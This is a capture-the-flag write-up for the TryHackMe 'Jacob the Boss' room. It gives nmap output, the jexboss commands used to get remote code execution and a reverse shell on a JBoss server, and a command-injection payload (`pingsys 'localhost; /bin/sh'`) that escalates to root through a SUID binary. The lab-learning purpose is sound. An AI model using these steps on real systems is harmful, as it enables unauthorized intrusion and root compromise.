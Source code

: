 # Jacob the Boss CTF [TryHackMe](https://tryhackme.com/room/jacobtheboss)

---

![](https://tryhackme-images.s3.amazonaws.com/room-icons/065e4dc344a4c5fc9155dd4ae9eca52b.jpeg)

---

```bash
export IP=10.10.93.83
```

---

## Enumeration

```bash
nmap -sC -sV -A -v -oN nmap/initial.log $IP
```

```
# Nmap 7.91 scan initiated Mon Aug  2 13:35:54 2021 as: nmap -vvv -p 22,80,111,1090,1098,1099,3306,3873,4444,4445,4446,4457,4712,4713,8009,8080,8083,13101,41513,43583 -sC -sV -v -A -oN nmap/initial.log 10.10.93.83
Nmap scan report for jacobtheboss.box (10.10.93.83)
Host is up, received syn-ack (0.14s latency).
Scanned at 2021-08-02 13:35:55 +04 for 192s

PORT      STATE SERVICE      REASON  VERSION
22/tcp    open  ssh          syn-ack OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 82:ca:13:6e:d9:63:c0:5f:4a:23:a5:a5:a5:10:3c:7f (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDOLOk6ktnJtucoDmXmBrc4H4gGe5Cybdy3jh1VZg+CYg+sZbYXzGi2/JO45cRqYd2NFIq7l+oTsjFgh76qAayKMU4D3+gKaC+U2VL93nCU1SywzvZLLc8MEy7mTHflOm4kZCmycgtJO4tfUhuH64yEP+lv3ENFeH5jgyJcGABF/p44MMSwnvpaLMfOuEGuEhKMPA4c+XAiS3J+sErUbpx6ragGGJAKTpww+arDy11slMsyJgjN6GUjlR0y+P0E4/NsrNHe86GKXJ1G4bfKEdKOPeTZ+wZMNFDCVNLPHLWUBIgWNQHIgRcXiBvPAvIrrt8gV/+td9C74Bsj0VqEEJnP
|   256 a4:6e:d2:5d:0d:36:2e:73:2f:1d:52:9c:e5:8a:7b:04 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNUtPCeXKNaq6WZlT3PxbZbQmka1bb5I+yBRhUb5tzmf2GEmdDOk6R7MSUlEtzGzQ4GjAWFZG3q7ZcBahg8ur8A=
|   256 6f:54:a6:5e:ba:5b:ad:cc:87:ee:d3:a8:d5:e0:aa:2a (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJI3bQUWzwhk0iJYl+gGn09NgvRLtN4vJ4DG6SrE7/Hb
80/tcp    open  http         syn-ack Apache httpd 2.4.6 ((CentOS) PHP/7.3.20)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.6 (CentOS) PHP/7.3.20
|_http-title: My first blog
111/tcp   open  rpcbind      syn-ack 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
1090/tcp  open  java-rmi     syn-ack Java RMI
|_rmi-dumpregistry: ERROR: Script execution failed (use -d to debug)
1098/tcp  open  java-rmi     syn-ack Java RMI
1099/tcp  open  java-object  syn-ack Java Object Serialization
| fingerprint-strings:
|   NULL:
|     java.rmi.MarshalledObject|
|     hash[
|     locBytest
|     objBytesq
|     xp'w]
|     http://jacobtheboss.box:8083/q
|     org.jnp.server.NamingServer_Stub
|     java.rmi.server.RemoteStub
|     java.rmi.server.RemoteObject
|     xpw;
|     UnicastRef2
|_    jacobtheboss.box
3306/tcp  open  mysql        syn-ack MariaDB (unauthorized)
3873/tcp  open  java-object  syn-ack Java Object Serialization
4444/tcp  open  java-rmi     syn-ack Java RMI
4445/tcp  open  java-object  syn-ack Java Object Serialization
4446/tcp  open  java-object  syn-ack Java Object Serialization
4457/tcp  open  tandem-print syn-ack Sharp printer tandem printing
4712/tcp  open  msdtc        syn-ack Microsoft Distributed Transaction Coordinator (error)
4713/tcp  open  pulseaudio?  syn-ack
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NULL, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns:
|_    a229
8009/tcp  open  ajp13        syn-ack Apache Jserv (Protocol v1.3)
| ajp-methods:
|   Supported methods: GET HEAD POST PUT DELETE TRACE OPTIONS
|   Potentially risky methods: PUT DELETE TRACE
|_  See https://nmap.org/nsedoc/scripts/ajp-methods.html
8080/tcp  open  http         syn-ack Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Unknown favicon MD5: 799F70B71314A7508326D1D2F68F7519
| http-methods:
|   Supported Methods: GET HEAD POST PUT DELETE TRACE OPTIONS
|_  Potentially risky methods: PUT DELETE TRACE
|_http-server-header: Apache-Coyote/1.1
|_http-title: Welcome to JBoss&trade;
8083/tcp  open  http         syn-ack JBoss service httpd
|_http-title: Site doesn't have a title (text/html).
13101/tcp open  unknown      syn-ack
41513/tcp open  unknown      syn-ack
43583/tcp open  java-rmi     syn-ack Java RMI
5 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port1099-TCP:V=7.91%I=7%D=8/2%Time=6107BC7C%P=x86_64-apple-darwin18.7.0
SF:%r(NULL,16F,"\xac\xed\0\x05sr\0\x19java\.rmi\.MarshalledObject\|\xbd\x1
SF:e\x97\xedc\xfc>\x02\0\x03I\0\x04hash\[\0\x08locBytest\0\x02\[B\[\0\x08o
SF:bjBytesq\0~\0\x01xp'w\]\x91ur\0\x02\[B\xac\xf3\x17\xf8\x06\x08T\xe0\x02
SF:\0\0xp\0\0\0\.\xac\xed\0\x05t\0\x1dhttp://jacobtheboss\.box:8083/q\0~\0
SF:\0q\0~\0\0uq\0~\0\x03\0\0\0\xc7\xac\xed\0\x05sr\0\x20org\.jnp\.server\.
SF:NamingServer_Stub\0\0\0\0\0\0\0\x02\x02\0\0xr\0\x1ajava\.rmi\.server\.R
SF:emoteStub\xe9\xfe\xdc\xc9\x8b\xe1e\x1a\x02\0\0xr\0\x1cjava\.rmi\.server
SF:\.RemoteObject\xd3a\xb4\x91\x0ca3\x1e\x03\0\0xpw;\0\x0bUnicastRef2\0\0\
SF:x10jacobtheboss\.box\0\0\x04J\0\0\0\0\0\0\0\0\x9ez\xba>\0\0\x01{\x062B\
SF:x02\x80\0\0x");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port3873-TCP:V=7.91%I=7%D=8/2%Time=6107BC82%P=x86_64-apple-darwin18.7.0
SF:%r(NULL,4,"\xac\xed\0\x05");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port4445-TCP:V=7.91%I=7%D=8/2%Time=6107BC82%P=x86_64-apple-darwin18.7.0
SF:%r(NULL,4,"\xac\xed\0\x05");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port4446-TCP:V=7.91%I=7%D=8/2%Time=6107BC82%P=x86_64-apple-darwin18.7.0
SF:%r(NULL,4,"\xac\xed\0\x05");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port4713-TCP:V=7.91%I=7%D=8/2%Time=6107BC82%P=x86_64-apple-darwin18.7.0
SF:%r(NULL,5,"a229\n")%r(GenericLines,5,"a229\n")%r(GetRequest,5,"a229\n")
SF:%r(HTTPOptions,5,"a229\n")%r(RTSPRequest,5,"a229\n")%r(RPCCheck,5,"a229
SF:\n")%r(DNSVersionBindReqTCP,5,"a229\n")%r(DNSStatusRequestTCP,5,"a229\n
SF:")%r(Help,5,"a229\n")%r(SSLSessionReq,5,"a229\n")%r(TerminalServerCooki
SF:e,5,"a229\n")%r(TLSSessionReq,5,"a229\n")%r(Kerberos,5,"a229\n")%r(SMBP
SF:rogNeg,5,"a229\n")%r(X11Probe,5,"a229\n")%r(FourOhFourRequest,5,"a229\n
SF:")%r(LPDString,5,"a229\n")%r(LDAPSearchReq,5,"a229\n")%r(LDAPBindReq,5,
SF:"a229\n")%r(SIPOptions,5,"a229\n")%r(LANDesk-RC,5,"a229\n")%r(TerminalS
SF:erver,5,"a229\n")%r(NCP,5,"a229\n")%r(NotesRPC,5,"a229\n")%r(JavaRMI,5,
SF:"a229\n")%r(WMSRequest,5,"a229\n")%r(oracle-tns,5,"a229\n")%r(ms-sql-s,
SF:5,"a229\n")%r(afp,5,"a229\n")%r(giop,5,"a229\n");
Service Info: OS: Windows; Device: printer; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/local/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Aug  2 13:39:07 2021 -- 1 IP address (1 host up) scanned in 192.92 seconds
```

So, you may be inclined to believe that this is a Windows box considering the amount of ports open, however, notice port `8080`. It's a Tomcat/Coyote JSP engine.

Let's have a peek at that.

(Keep in mind that as my `nmap` scan was going on - manually explored the site and also launched gobuster - those however, will not be needed here)

Looking at http://jacobtheboss.box:8080 we notice a few things. First this is obviously a Tomcat server but it also has JBoss on it. This will probably be our vunerability.

---

### Finding Vunerabilities

Googling around for some JBoss v.5 exploits (the console while checking the site gives information about its version etc...) I stumble onto this [Github Repo](https://github.com/joaomatosf/jexboss) with an automated tool for exploiting JBoss.

```bash
git clone https://github.com/joaomatosf/jexboss.git
pip2 install -r requires.txt
python2 jexboss.py -u http://$IP:8080
```

The tool finds multiple RCE vunerabilities and even has the ability to generate a reverse shell for us!

---

### PrivEsc

I open a netcat listener and gain a reverse shell using the tool above!

Now that I have it, I see that I am logged on as a user `jacob`. I grab the user flag and launch `linpeas`.

It first picks up on something named `/srv/java/bin/java` as a severe binary exploitation vunerability as well as the Linux kernel version being `3.10`. But before I launch myself down that avenue, I notice a strange SUID bit set: `pingsys`. Linpeas does not recognise it so it is probably an external command that may be poorly configured.

Googling for an exploit for `pingsys` (and guessing I'm on the right track as every 3 result is related to the room) I find a super simple one [here](https://security.stackexchange.com/questions/196577/privilege-escalation-c-functions-setuid0-with-system-not-working-in-linux).

```bash
pingsys 'localhost; /bin/sh'
```

And we're now root! Pretty easy actually and I'm super thankful I didn't stumble down the rabbit hole of java exploitation from the first vunerability we found!

---

### Final Thoughts

A room which seems intimidating at first but it is super simple if you follow your head and don't fall down the multiple rabbit holes!

Recommended!

---

![](https://w7.pngwing.com/pngs/769/261/png-transparent-jboss-enterprise-application-platform-wildfly-red-hat-java-java-server-pages-hat-text-logo.png)
